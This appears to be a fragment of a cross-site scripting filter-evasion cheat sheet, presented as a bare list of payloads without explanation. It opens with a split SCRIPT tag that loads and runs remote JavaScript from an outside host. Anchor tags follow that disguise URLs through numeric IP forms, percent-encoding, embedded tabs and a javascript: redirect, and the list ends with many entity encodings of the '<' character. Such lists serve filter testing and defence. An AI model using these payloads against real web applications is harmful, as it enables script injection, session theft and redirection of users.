 	<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>

	<A HREF="http://66.102.7.147/">XSS</A>

	<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>

	<A HREF="http://1113982867/">XSS</A>

	<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>

	<A HREF="http://0102.0146.0007.00000223/">XSS</A>

	<A HREF="h
	tt	p://6&#9;6.000146.0x7.147/">XSS</A>

	<A HREF="//www.google.com/">XSS</A>

	<A HREF="//google">XSS</A>

	<A HREF="http://ha.ckers.org@google">XSS</A>

	<A HREF="http://google:ha.ckers.org">XSS</A>

	<A HREF="http://google.com/">XSS</A>

	<A HREF="http://www.google.com./">XSS</A>

	<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>

	<A HREF="http://www.gohttp://www.google.com/ogle.com/">XSS</A>

	<
	%3C
	&lt
	&lt;
	&LT
	&LT;
	&#60
	&#060
	&#0060
	&#00060
	&#000060
	&#0000060
	&#60;
	&#060;
	&#0060;
	&#00060;
	&#000060;
	&#0000060;
	&#x3c
	&#x03c
	&#x003c
	&#x0003c
	&#x00003c
	&#x000003c
	&#x3c;
	&#x03c;
	&#x003c;
	&#x0003c;
	&#x00003c;
	&#x000003c;
	&#X3c
	&#X03c
	&#X003c
	&#X0003c
	&#X00003c
	&#X000003c
	&#X3c;
	&#X03c;
	&#X003c;